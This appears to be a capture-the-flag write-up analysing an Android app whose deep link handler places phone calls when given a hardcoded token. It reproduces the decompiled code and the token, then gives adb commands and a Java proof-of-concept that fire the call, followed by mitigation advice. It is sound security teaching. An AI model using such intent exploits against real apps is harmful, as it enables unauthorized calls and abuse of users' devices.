

*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

# Android Deep Link Vulnerability Analysis: Hardcoded Token in Plainsight

In this challenge, the application is vulnerable to deep link misconfiguration due to hardcoded token values combined with extensive permissions. Let's dive into the technical analysis.

## Initial Discovery

By first inspecting the Java code, we can see the call permission that we need to focus on:


Then, I discovered an activity called `CallHandlerServiceActivity`.

## The CallHandlerServiceActivity Activity

This `CallHandlerServiceActivity` is a **backdoor activity** in the app that allows bypassing normal security checks to make phone calls if you provide the correct `authentication` token, I will explain with code snippets what is happening:

## Step 1: URI Data Extraction

First, it gets the URI data from the incoming intent and checks if it's hierarchical (has query parameters). This is the entry point for processing deep links that could contain authentication tokens:

```java
Uri data = getIntent().getData();
if (data != null) {
    if (data.isHierarchical()) {
        try {
            for (String str : data.getQueryParameterNames()) {
            }
            List<String> pathSegments = data.getPathSegments();
```

## Step 2: Token Hunting in 5 Different Locations

After that, it searches for the token in that URI in **5 different locations**:

### 1. Intent Extras

```java
ArrayList arrayList = new ArrayList();
arrayList.add(getIntent().getStringExtra("enterprise_auth_token"));
```

### 2. Query Parameters

```java
arrayList.add(data.getQueryParameter("enterprise_auth_token"));
```

### 3. Manual Query String Parsing

```java
Pattern patternCompile = Pattern.compile("enterprise_auth_token=([^&]+)");
Matcher matcher = patternCompile.matcher(query);
if (cVar != null && ((AbstractC0535a) cVar.g()).c() > 1) {
    arrayList.add(((C0533A) cVar.g()).get(1));
```

### 4. Path Segments

```java
List<String> pathSegments2 = data.getPathSegments();
int iIndexOf2 = pathSegments2.indexOf("token");
if (iIndexOf2 >= 0 && iIndexOf2 < pathSegments2.size() - 1) {
    arrayList.add(pathSegments2.get(iIndexOf2 + 1));
```

### 5. Fragment Processing

```java
String fragment = data != null ? data.getFragment() : null;
if (fragment != null) {
    if (b.o0(fragment, "token=", false)) {
        arrayList.add(b.z0(b.x0(fragment, "token="), "&"));
    }
    // Multiple fragment parsing methods for different formats
```

## The Critical Discovery: Hardcoded Tokens

Now we know the where and the how, but what about the "what key"?

Simply put, it's super hardcoded in the app. Here's the validation check:

```java
if (str5.equals("8kd1aL3R_s3Cur3_k3Y_2023") ||
    str5.equals("8kd1aL3R-s3Cur3-k3Y-2023") ||
    h.a(strDecode, "8kd1aL3R_s3Cur3_k3Y_2023") ||
    h.a(strDecode, "8kd1aL3R-s3Cur3-k3Y-2023"))
```

## Phone Number Extraction

Then it extracts the phone number from the same URI using:

### Intent Extras

```java
if (getIntent().hasExtra("phoneNumber")) {
    strGroup = getIntent().getStringExtra("phoneNumber");
}
```

### Tel Scheme

```java
else if (h.a(data2 != null ? data2.getScheme() : null, "tel")) {
    strGroup = data3.getSchemeSpecificPart();
}
```

### Custom dialersec Scheme

```java
else if (h.a(data4 != null ? data4.getScheme() : null, "dialersec")) {
    if (h.a(data5 != null ? data5.getHost() : null, "call")) {
        String queryParameter = data6 != null ? data6.getQueryParameter("number") : null;
```

## Call Execution

Finally, it executes the call using the phone number if the token validation passes:

```java
if (strGroup == null || strGroup.length() == 0) {
    Log.e("CallHandlerService", "No target contact found in request: " + getIntent());
} else {
    try {
        Intent intent = new Intent("android.intent.action.CALL");
        intent.setData(Uri.parse("tel:" + strGroup));
        intent.addFlags(268435456);
        startActivity(intent);
    } catch (Exception e10) {
        Log.e("CallHandlerService", "Call service connection failed", e10);
    }
}
```

## Exploitation

Using ADB, we can simply call the activity using:

```bash
adb shell am start -a android.intent.action.VIEW -d "dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=1234567890"
```

> Pro Tip: We used \& because in PowerShell, & gets treated differently than in bash.

Or simply use the fragment approach:

```bash
adb shell am start -a android.intent.action.VIEW -d 'dialersec://call?number=1234567890#token=8kd1aL3R_s3Cur3_k3Y_2023'
```

I wrote a simple `POC` that I'll share on my GitHub later but here is the important snippet:

```java
private void launchExploit() {
        try {
            // Single proof-of-concept attack using  discovered primary token
            String exploitUri = "dialersec://call/token/8kd1aL3R_s3Cur3_k3Y_2023?number=1234567890";

            Log.d(TAG, "Launching single PoC attack vector");
            Log.d(TAG, "Exploit URI: " + exploitUri);

            Intent maliciousIntent = new Intent(Intent.ACTION_VIEW);
            maliciousIntent.setData(Uri.parse(exploitUri));
            maliciousIntent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK | Intent.FLAG_ACTIVITY_CLEAR_TOP);

            Log.d(TAG, "About to startActivity with maliciousIntent: " + maliciousIntent);
            try {
                startActivity(maliciousIntent);
                Log.d(TAG, "Exploit launched: " + exploitUri);

            } catch (Exception e) {
                Log.e(TAG, "Exploit failed: " + exploitUri, e);
            }

            Log.d(TAG, "EXPLOIT COMPLETED");

        } catch (Exception e) {
            Log.e(TAG, "EXPLOIT FAILURE", e);
        }
    }
```


Some important questions that came across my `n00bie` brain:

## Key Questions & Analysis

### 1. What's the Real Vulnerability?

**The vulnerability has TWO components:**

**Deep Link Component:**

- Custom scheme `dialersec://` can be **hijacked** by malicious apps
- No domain verification like proper App Links
- Multiple attack vectors through various parsing methods

**Hardcoded Token Component:**

- **Static credentials** `8kd1aL3R_s3Cur3_k3Y_2023` never change
- **Reverse engineering** easily reveals tokens through decompilation
- **No revocation mechanism** - tokens work forever once discovered

> However, the hardcoded tokens are the PRIMARY vulnerability - even with secure deep links, static credentials make the backdoor exploitable.

### 2. Device-Specific Behavior Mystery

The second most important question is that the POC worked on:

- AOSP emulator (Android 14)
- S22 Ultra real device (Android 14)

But it **could not work** on a Xiaomi device using Android 10. When starting the POC, it routes the number to the real dialer of the phone instead of initiating the call directly.

**Theory**: MIUI might be blocking such deep link exploitation through:

- Intent filtering and sanitization
- Extra validation layers
- Fragment stripping from suspicious URIs
- Enhanced security policies for cross-app communication

Do you have an answer? will be waiting :"D

## Mitigation Recommendations

A hacker only knows how to exploit, but a proffesional knows how to do both so, to secure against this type of vulnerability:

1. **Replace hardcoded tokens** with dynamic, time-based authentication
2. **Implement proper deep link validation** with input sanitization
3. **Use App Links instead of custom schemes** for better security

---

*For more information about deep link best practices, visit this* [Link](https://developer.android.com/privacy-and-security/risks/unsafe-use-of-deeplinks)
